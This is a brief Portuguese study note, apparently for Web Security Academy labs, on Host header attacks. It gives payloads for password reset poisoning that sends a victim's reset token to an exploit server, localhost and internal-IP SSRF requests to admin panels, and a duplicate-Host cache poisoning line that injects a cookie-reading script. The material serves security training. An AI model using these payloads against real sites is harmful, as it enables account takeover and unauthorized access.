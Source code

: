 # Ataques de Host Header

O melhor lugar para procurar esse tipo de ataque é na funcionalidade de resetar senha (forgot password).

Coloque o endereço do seu servidor de exploit no header **Host** e mude o username para o da vítima.

Em seguida, confira os logs para ver se você recebeu o token de reset.

Outros Headers possíveis:
```
X-Forwarded-Host
X-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
```

<br>

## Laboratórios

> [!IMPORTANT]  
> Esse é o Lab mais importante dessa seção.

**Basic Password Reset Poisoning**
```
Host: exploit-server.com
```

<br>
<br>

**Admin Panel from Localhost Only**
```
GET /admin HTTP/1.1
Host: localhost
```

<br>
<br>

**Double Host / Cache poisoning**
```
Host: 0adf00cc033d5f09c05b077d000200eb.web-security-academy.net
Host: "></script><script>alert(document.cookie)</script>
```

<br>
<br>

**SSRF**
```
GET /admin HTTP/1.1
Host: 192.168.0.170
```

<br>
<br>

**SSRF 2**
```
GET https://0a44007e03fb1d0cc0068900005000d1.web-security-academy.net HTTP/1.1
Host: 192.168.0.170
```
